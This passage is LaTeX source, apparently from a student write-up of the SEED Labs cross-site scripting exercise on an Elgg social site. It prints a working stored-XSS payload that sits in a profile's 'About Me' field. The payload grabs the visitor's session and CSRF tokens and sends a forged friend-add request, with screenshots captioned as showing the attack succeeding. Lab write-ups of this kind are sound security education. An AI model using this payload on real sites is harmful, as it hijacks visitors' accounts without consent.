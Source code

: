\documentclass[12pt]{article}
\begin{document}
We then place the following in Samy's ``About Me'' in ``Edit HTML'' format:

\begin{verbatim}
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts = elgg.security.token.__elgg_ts; // Time Stamp
        var token= elgg.security.token.__elgg_token; // Security Token
        var myID = 59; // User ID of the attacker (Samy)
        var userID = elgg.session.user.guid; // ID of the visitor

        // If Samy is visiting his own profile, no attack should happen
        if (userID == myID) return;

        var sendurl = `/action/friends/add?friend=${myID}&__elgg_ts=${ts}&__elgg_token=${token}&__elgg_ts=${ts}&__elgg_token=${token}`;

        // Create and send Ajax request to add friend
        Ajax = new XMLHttpRequest();
        // Last boolean value is for asynchronous request making
        Ajax.open("GET", sendurl, true);
        Ajax.setRequestHeader("Host", "www.seed-server.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send();
	}
</script>
\end{verbatim}
\newpage
After this, when Alice visits Samy's profile, the attack is executed with the following request being sent:
     \begin{figure}[H]
         \centering
         \includegraphics[width=\textwidth]{Images/ss7.png}
         \caption{GET Request sent as a result of the attack}
         \label{fig:ss7}
     \end{figure}
On reload, we can see that, Samy is now alice's friend.
     \begin{figure}[H]
         \centering
         \includegraphics[width=\textwidth]{Images/ss1.png}
         \caption{Samy gets added as Alice's friend}
         \label{fig:ss1}
     \end{figure}
\end{document}
